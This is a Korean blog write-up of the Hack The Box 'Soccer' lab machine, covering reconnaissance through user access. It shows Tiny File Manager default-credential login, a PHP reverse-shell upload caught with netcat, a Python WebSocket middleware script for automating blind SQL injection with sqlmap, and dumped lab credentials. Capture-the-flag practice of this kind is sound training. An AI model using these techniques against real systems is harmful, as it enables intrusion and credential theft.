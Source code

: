 ```yaml
---
date: '2023-03-03'
before : '2023-03-02'
after : '2023-03-10'
title: 'Hack The Box Machine : Soccer'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 Soccer의 풀이'
thumbnail: '../contentImages/Soccer.png'
---
```


### 0. 오늘의 문제 소개

![projectManage](../contentImages/Soccer.png)

2023년 4월 기준 HTB Active Easy로 레이팅 되어있는 머신 중 하나인 Soccer의 풀이를 해 보았다. 하지만 말이 Easy지 레이팅 지표를 보면 Medium에 가까워서 그렇게 쉽진 않았다. 한 두시간정도 걸린 것 같다.


### 1. Information Gathering


일단 nmap 스캔부터 돌려보자.

![nmap](../contentImages/soccer/1.png)

특이점은 없지만 맨 밑에 처음 보는 희안한 포트가 (9091) 열려있었는데, 이건 나중에 Privilege Escalation 할 때 필요한 거였다. 일단은 http가 열려있으니 /etc/hosts에 추가하고 접속해보자.

![soccerhtb](../contentImages/soccer/2.png)

보기에 별 다를 것 없는 사이트이다. 그럼 정석대로 Directory Fuzzing을 해서 서브다이렉토리가 존재하나 확인해보자.

![fuzzer](../contentImages/soccer/3.png)

예상하긴 했지만 tiny라는 희안한 서브다이렉토리가 존재한다. 바로 들어가보자.

### 2. Gaining Initial Foothold

![tiny](../contentImages/soccer/4.png)

이런 로그인 창이 뜨는데, 밑에 Copyright를 눌러보니 이 플러그인 제작자의 홈페이지가 뜬다.

![copyright](../contentImages/soccer/5.png)

여길 이곳저곳 탐색하다보니, 이 플러그인의 default 유저이름/암호가 admin:admin@123이란 것을 알 수 있었다. 실제 Pentest에선 모르지만, 보통 CTF에선 이런 정보가 보이면 그 크레덴셜이 유용한 경우가 많은 것 같다. 역시나 로그인이 된다. 로그인을 하니

![uploadPage](../contentImages/soccer/6.png)

이런 파일 업로드용 홈페이지가 뜬다. 아마 100프로로 File Upload관련 취약점이 존재할 것이다. 저기 tiny 폴더로 들어가서 reverse shell 업로드를 진행해보자. reverse shell은 다음과 같은 코드를 사용했다.

```

```
![uploading](../contentImages/soccer/7.png)

업로드를 하고, nc -lvnp로 내 서버를 켠 다음 파일이 업로드된 경로로 접속해보자. 경로가 /tiny/내_파일_이름.php라고 친절하게 알려준다.

![revshell](../contentImages/soccer/8.png)

성공적으로 쉘이 나왔다. 하지만 이게 끝은 아니다. 아직 유저 권한도 얻지 못한 듯 하다. 시스템을 열심히 탐색해보자... 

### 3. User Privilege

! 시스템을 탐색하다보니 (그냥 파일/경로 열어보기 노가다..) soc-player.soccer.htb라는 vhost가 존재하는 듯 하다. 접속해보니

![soc-player](../contentImages/soccer/9.png)

이런 페이지가 뜬다. 회원가입이 가능하니 얼른 가입하고 로그인을 해보자.

![logged-on](../contentImages/soccer/10.png)

이렇게 뭔가를 입력할 수 있는 화면이 뜨는데..? 이 부분이 좀 어려웠다. 페이지 소스를 확인해보니

![socket](../contentImages/soccer/11.png)

Web Socket으로 통신이 이루어진다는걸 확인할 수 있다. 저런 확인 시스템이 있는 걸 보니 일단 SQL Injection 관련인 것 같긴 한데... 구글링을 해보니 Web Socket Blind SQL Injection이 존재한다는걸 알 수 있었다. 


https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html


구글링 없이 해킹은 절대 무리란걸 다시한번 상기하며, 해당 블로그에 나와있는 파이썬 소켓 코드를 (middleware식으로 동작한다)내 컴퓨터에 작성한다. 물론 우리 상황에 맞게 살짝 코드를 바꾸긴 해야하지만 큰 틀에선 비슷하다.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv()
 
 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # JSON으로 만든다.
 data = '{"id":"%s"}' % message # 이 부분은 살짝 바뀐다.

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
   except IndexError:
    payload = False
    
   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

이렇게 하고 sqlmap을 실행시킨다.

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```

![sqlmap](../contentImages/soccer/12.png)

실행시켜보면 위와 같이 sql취약점을 발견할 수 있고, 그걸 바탕으로 db를 탐색하면 유저의 credential을 얻을 수 있다 :


1324 | player@player.htb | player   | PlayerOftheMatch2022


이제 ssl로 로그인을 해보고 ls를 때려보면...!

![user_exploit](../contentImages/soccer/13.png)

유저로 로그인을 할 수 있고, user.txt flag를 얻을 수 있다.

### 4. 마치며

사실 글이 이렇게 길어질 줄 몰랐다. 이거 절대 easy 아니다. 내 첫 Hack The Box pwn으로 이상한 걸 고른 것 같다. 다른 box들은 이렇게 어렵지 않던데... 여기까지가 유저 권한 취득이고, 루트 권한 취득은 좀 더 괴랄(?) 해진다. 


Root Privilege도 막 따 놓은 참이긴 하지만 나중에 마저 스크린샷 찍고 정리해서 올려야지 (절대 귀찮은게 아니다.)

## Source

- Hack The Box 2023
- Me!


